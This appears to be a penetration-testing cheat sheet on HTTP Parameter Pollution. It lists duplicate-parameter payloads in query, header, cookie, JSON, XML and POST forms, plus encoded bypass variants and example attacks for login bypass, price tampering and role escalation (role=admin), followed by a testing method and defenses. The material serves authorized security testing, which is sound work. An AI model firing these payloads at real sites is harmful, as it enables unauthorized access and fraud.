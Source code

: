 # HTTP Parameter Pollution (HPP) Payload Cheat Sheet

Parameter pollution occurs when multiple parameters with the same name are passed to a web application, potentially causing unexpected behavior. Below are various HPP payloads for testing and exploitation.

## Basic Payloads

```
?param=value1&param=value2
?param[]=value1&param[]=value2
?param=value1&param=
```

## URL-Encoded Payloads

```
?param=value1%26param%3Dvalue2
?param=value1%3Bparam%3Dvalue2
```

## Special Character Payloads

```
?param=value1&param=value2#
?param=value1&param=value2?
?param=value1/*&param=value2*/
```

## Header-Based HPP

```
Cookie: param=value1; param=value2
User-Agent: Mozilla/5.0 (param=value1&param=value2)
```

## JSON Parameter Pollution

```json
{
  "param": ["value1", "value2"],
  "param": "value3"
}
```

## XML Parameter Pollution

```xml
<root>
  <param>value1</param>
  <param>value2</param>
</root>
```

## HTTP Method Variations

```
POST /endpoint HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded

param=value1&param=value2
```

## Bypass Techniques

```
?param=value1&%70%61%72%61%6d=value2  // URL-encoded param name
?param=value1&param=value2&other=test
?param=value1&other=test&param=value2
```

## Impactful Scenarios

1. **Authentication Bypass**:
   ```
   ?username=admin&username=user&password=12345
   ```

2. **Price Manipulation**:
   ```
   ?price=100&price=1
   ```

3. **Access Control**:
   ```
   ?role=user&role=admin
   ```

## Testing Methodology

1. Identify all parameters in the request
2. Duplicate each parameter with different values
3. Test different positions (first, last, middle)
4. Test with different separators (&, ;, %26)
5. Test with different content-types (form, JSON, XML)

## Defense Mechanisms

- Use the first/last occurrence consistently
- Reject requests with duplicate parameters
- Normalize parameter names before processing
- Implement strict parameter validation

Note: Always test these payloads in authorized environments only. Unauthorized testing may violate laws and ethical guidelines.